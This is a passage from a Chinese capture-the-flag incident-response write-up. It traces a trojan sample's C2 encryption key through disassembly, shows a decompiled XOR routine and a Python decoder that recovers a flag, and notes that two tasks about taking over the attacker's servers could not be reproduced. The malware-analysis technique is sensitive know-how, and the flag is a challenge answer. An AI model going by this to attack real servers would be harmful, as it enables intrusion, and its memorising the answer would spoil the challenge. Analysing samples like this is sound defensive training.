.rodata:00000000004BF018                                         ; DATA XREF: sub_406680:loc_406778↑o
.rodata:00000000004BF018                                         ; sub_407040:loc_407225↑o ...
.rodata:00000000004BF04E                 align 10h
.rodata:00000000004BF050 aSysdepsUnixSys db '../sysdeps/unix/sysv/linux/createthread.c',0
.rodata:00000000004BF050                                         ; DATA XREF: sub_407DD0+FDD↑o
.rodata:00000000004BF050                                         ; sub_407DD0+1086↑o
.rodata:00000000004BF07A                 align 20h
.rodata:00000000004BF080 aCreateThread   db 'create_thread',0    ; DATA XREF: sub_407DD0:loc_408DA6↑o
.rodata:00000000004BF080                                         ; sub_407DD0+107F↑o
.rodata:00000000004BF08E                 align 10h
```

根据相关交叉调用查询，可以确定通信的核心在于 `sub_40641D` 函数



其中，怀疑木马通信的加密密钥就是 `unk_4BEFFD`





```plaintext
unk_4BEFFD -> off_6EB168

->  sub_405EC9+E
->  sub_405EC9+2E
->  sub_406339+1A
->  sub_40641D+88
```

进一步跟踪，可以定位到函数 `sub_405EC9`

```c
_BYTE *sub_405EC9()
{
    _BYTE *result; // rax
    _BYTE *v1; // rsi
    __int64 i; // rdx

    result = (_BYTE *)sub_42C200(24LL);
    v1 = off_6EB168;
    for (i = 0LL; i != 23; ++i)
        result[i] = v1[i] ^ 0x69;
    off_6EB168 = result;
    return result;
}
```

一眼异或编码算法，很简单

提取 `unk_4BEFFD` 的数据之后，解码即可

```python
unk_4BEFFD = [0x3D, 0x01, 0x20, 0x3A, 0x36, 0x58, 0x3A, 0x36, 0x1D, 0x01, 0x5A, 0x36, 0x3A, 0x5A, 0x0A, 0x3B, 0x5A, 0x1D, 0x36, 0x0F, 0x05, 0x29, 0x0E]

for i in unk_4BEFFD:
    print(chr(i^0x69), end='')

# ThIS_1S_th3_S3cR3t_fl@g
```

## 6

> 分析题目 3 中持久化程序 (下载者)，找到攻击者分发远控木马使用的服务器，并获取该服务器权限，找到 flag，结果提交形式：`flag{xxxx}`
>
> tips：压缩包密码最后一位为.

无远控服务器环境，无法复现

## 7

> 获取题目 2 中找到的远控木马的主控端服务器权限，查找 flag 文件，结果提交形式：`flag{xxxx}`

无远控服务器环境，无法复现

## 后记

可以看到题目信息还提供了用户凭据，但是说实话，仿真取证的难度和效率，要远远高于直接读取磁盘镜像做静态取证

这题的难度，其实要远远低于初赛的应急响应题目的难度，尤其是 C2 的 client 端也基本没有任何高级的保护措施，就是简单的符号表混淆这种，有一定经验的选手其实都能分析出来

> 简单题比速度，复杂题比心态

真不应该在应急响应这边浪费过多的时间，从而耽误在 ISW 环节看靶场
